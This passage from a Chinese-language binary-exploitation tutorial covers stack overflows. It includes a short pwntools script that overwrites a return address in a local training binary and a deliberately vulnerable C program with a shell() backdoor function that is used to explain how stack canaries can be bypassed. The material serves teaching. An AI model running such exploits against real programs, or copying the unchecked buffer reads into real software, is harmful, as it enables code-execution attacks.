 编写攻击脚本：

- 108 为 `char buf[104]` 加上寄存器 4 字节。
- 32 位程序，使用 p32 而不是 p64。

```python
#!/usr/bin/python3
from pwn import *
p = process("./bin16")
p.sendline("a"*108+p32(0x080485C6).decode('unicode_escape'))
p.interactive()
```

### 3.2 栈保护技术

栈溢出利用难度很低，但危害巨大。编译器开发者们引入 Canary 机制来检测栈溢出攻击。

Canary 机制在栈保存 RBP 的位置前插入一段随机数，如果攻击者利用栈溢出漏洞覆盖返回地址，会将 Canary 一起覆盖。编译器会在函数 ret 指令前添加一段检查 Canary 值是否 被改写的代码。如果被改写，则直接抛出异常，中断程序，从而阻止攻击发生。

但 Canary 机制不一定可靠，示例如下。

#### 示例：Canary机制

```c
#include<stdio.h>
#include<unistd.h>

void shell(){
    system("/bin/sh");
}

void vuln(){
    char buf[24];
    puts("input 1:");
    read(0, buf, 100);
    puts(buf);
    puts("input 2:");
    fgets(buf, 0x100, stdin);
}

int main(){
    vuln();
}
```

编译时开启栈保护：

```
gcc stack2.c -no-pie -fstack-protector-all -o stack2
```

vuln 函数进入是，会从 fs:28 中取出 Canary 的值，放入 rbp-8 的位置。在函数退出前，将 rbp-8 中的值与 fs:28 中的值进行比较，如果被改变，就调用 `__stack_chk_fail` 函数，输出报错信息并退出程序。
